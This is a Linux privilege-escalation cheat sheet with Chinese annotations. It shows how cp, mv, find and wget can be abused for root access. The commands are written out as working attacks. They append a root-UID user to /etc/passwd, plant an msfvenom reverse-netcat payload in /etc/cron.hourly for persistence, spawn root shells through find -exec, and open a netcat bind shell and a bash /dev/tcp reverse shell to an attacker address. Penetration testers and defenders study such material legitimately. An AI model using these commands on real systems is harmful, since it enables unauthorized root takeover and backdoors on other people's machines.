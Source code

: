 ### cp/mv
+ 覆盖passwd文件添加用户;
+ 参考 https://www.hackingarticles.in/editing-etc-passwd-file-for-privilege-escalation/
+ mv同cp类似，覆盖passwd文件，或覆盖 /etc/sudoers

```bash
openssl passwd -1 -salt test1 123456
$1$test1$4mkw3HovqvIQpGIJM9AlP/
cat /etc/passwd > passwd
echo 'test1:$1$test1$4mkw3HovqvIQpGIJM9AlP/:0:0::/root/:/bin/bash' >> passwd
cp passwd /etc/passwd
su test1

#msfvenom 上传backdoor 反向连接
msfvenom -p cmd/nuix/reverse_netcat lhost=[attack ip] lport=1234 R
touch test.sh # 拷贝payload 保存为sh

cp test.sh /etc/cron.hourly/
ls -al /etc/cron.hourly/

nc -lvp 1234
```

### find

```
#1 通过awd获取shell
find / -exec /usr/bin/awk 'BEGIN {system("/bin/bash")}' ;

#2 新建文件 执行命令或 获取shell; check which bash/nc
touch ptlab
find ptlab -exec whoami \;
find ptlab -exec '/bin/sh' \;
find ptlab -exec "/usr/bin/bash" -p  \;    

#3 执行nc 监听端口，攻击机进行连接
find ptlab -exec netcat -lvp 5555 -e /bin/sh \;
netcat [targetip] 5555

#4 执行nc 反弹shell
find ptlab -exec bash -c 'bash -i >& /dev/tcp/[attackip]/4444 0>&1' \;
nc -lvvp 4444

#5 sudo
sudo find / -exec bash -i \;
sudo find /etc/passwd -exec /bin/sh \;
```

### wget
+ wget file to overwrite local file(eg. /etc/passwd)
+ wget read local file.
+ wget https://touhidshaikh.com/blog/2018/04/11/abusing-sudo-linux-privilege-escalation/
